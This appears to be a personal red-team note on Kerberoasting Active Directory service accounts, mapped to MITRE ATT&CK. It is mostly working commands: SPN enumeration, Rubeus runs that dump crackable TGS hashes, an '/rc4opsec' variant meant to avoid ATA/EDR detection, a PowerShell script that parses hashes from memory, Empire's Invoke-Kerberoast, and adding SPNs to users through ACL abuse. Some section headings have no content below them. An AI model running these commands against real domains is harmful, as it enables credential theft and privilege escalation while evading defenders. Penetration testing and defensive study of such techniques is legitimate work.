


> [!abstract] Steal or Forge Kerberos Tickets: Kerberoasting
> Adversaries may abuse a valid Kerberos ticket-granting ticket (TGT) to request one or more Kerberos ticket-granting service (TGS) tickets for any Service Principal Name (SPN) from a domain controller (DC). Portions of these tickets may be encrypted with the RC4 algorithm, meaning the Kerberos 5 TGS-REP `etype` 23 hash of the service account associated with the SPN is used as the private key and is thus vulnerable to offline Brute Force attacks that may expose plaintext credentials.
> **MITRE ATT&CK Mapping:** [T1558.003 - Kerberoasting](https://attack.mitre.org/techniques/T1558/003/)

## Concept & Attack Flow

> [!info] Understanding the Vulnerability
> **Service Principal Names (SPNs)** are used to uniquely identify each instance of a Windows service. To enable authentication, Kerberos requires that SPNs be associated with at least one service logon account.
> 
> If privilege escalation techniques fail, attackers can use Kerberoasting. Any domain user can request a TGS ticket for any service with an SPN. If the service account's password is weak, the extracted ticket can be cracked offline to reveal the plaintext password, leading to Privilege Escalation, Lateral Movement, and Persistence.

> [!example]+ Kerberos Flow: Normal Client vs. Kerberoasting Attacker
> In a normal Kerberos flow, the client requests a TGS ticket and immediately uses it to access the Application Server. In a Kerberoasting attack, the adversary stops at the TGS-REP step. They save the ticket to their local system to crack it offline, never contacting the Application Server.

**1. Normal Client Authentication Flow:**

## Enumeration of SPNs

> [!tip]+ Finding Kerberoastable Accounts
> **AD Module:**
> ```powershell
> Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -properties ServicePrincipalName
> ```
> **PowerView Module:**
> ```powershell
> Get-DomainUser -spn
> ```

**2. Attacker (Kerberoasting) Flow:**


## Execution: Rubeus

> [!danger]+ Kerberoasting with Rubeus
> Use Rubeus to list `kerberoastable` accounts in the domain and extract their hashes.
> 
> **1. List statistics:**
> ```cmd
> Rubeus.exe kerberoast /stats
> ```
> 
> **2. Basic Kerberoasting (RC4 - 0x17 Encryption):**
> *Note: This requests RC4 (etype 23) and is highly detectable by ATA/EDR.*
> ```cmd
> Rubeus.exe kerberoast /user:svcadmin /simple /outfile:passwordhashes.txt
> ```
> ![[Pasted image 20241226193422.png]]
> 
> **3. OPSEC Kerberoasting (`/rc4opsec`):**
> To avoid detections based on Encryption Downgrade (ATA detects 0x17 rc4-hmac), use `/rc4opsec`. This looks for accounts that *only* support RC4_HMAC. If AES is enabled on the account, this parameter will skip it to prevent triggering a downgrade alert.
> ```cmd
> Rubeus.exe kerberoast /stats /rc4opsec
> Rubeus.exe kerberoast /user:svcadmin /simple /rc4opsec
> 
> # Kerberoast all possible OPSEC-safe accounts
> Rubeus.exe kerberoast /rc4opsec /outfile:hash.txt
> ```
> ![[Pasted image 20241226195127.png]]

---

## Execution: .NET Classes & PowerShell

> [!example]+ Manual Extraction via .NET Classes
> Using native .NET classes to request a TGS and parse the hash directly from memory.
> 
> ```powershell
> Add-Type -AssemblyName System.IdentityModel
> $token = New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "cifs/viclab-dc"
> $TicketByteStream = $token.GetRequest()
> $TicketHexStream = [System.BitConverter]::ToString($TicketByteStream) -replace '-'
> 
> # Parse the ticket stream to extract the Kerberoast hash
> if($TicketHexStream -match 'a382....3082....A0030201(?<EtypeLen>..)A1.{1,4}.......A282(?<CipherTextLen>....)........(?<DataToEnd>.+)') {
>     $Etype = [Convert]::ToByte( $Matches.EtypeLen, 16 )
>     $CipherTextLen = [Convert]::ToUInt32($Matches.CipherTextLen, 16)-4
>     $CipherText = $Matches.DataToEnd.Substring(0,$CipherTextLen*2)
>     $Hash = "$($CipherText.Substring(0,32))`$$($CipherText.Substring(32))"
>     New-Object PSObject | Add-Member Noteproperty 'TicketByteHexStream' $null
> }
> 
> # Output format:
> # $krb5tgs$23$*Administrator$sinabndr.local$cifs/viclab-dc*$<hash>
> ```

> [!bug]+ PowerShell Module (Empire)
> **Resource:** [EmpireProject/Empire](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)
> ```powershell
> Invoke-Kerberoast
> ```

---

## Abusing ACLs (Changing the Object)

> [!warning+] Adding SPNs to Standard Users
> If you have `GenericAll` or `GenericWrite` permissions over a user object, you can add an arbitrary SPN to that user, making them Kerberoastable. This allows you to crack a standard user's password instead of a service account's.
> 
> **PowerView:**
> ```powershell
> Set-DomainObject -Identity user -set @{serviceprincipalname='ops/whatever'}
> ```
> **AD Module:**
> ```powershell
> Set-ADUser -Identity supportuser -serviceprincipalnames @{Add='ops/whatever'}
> ```
> **Execute Kerberoast on the modified user:**
> ```cmd
> Rubeus.exe kerberoast /user:svcadmin /simple /outfile:passwordhashes.txt
> ```


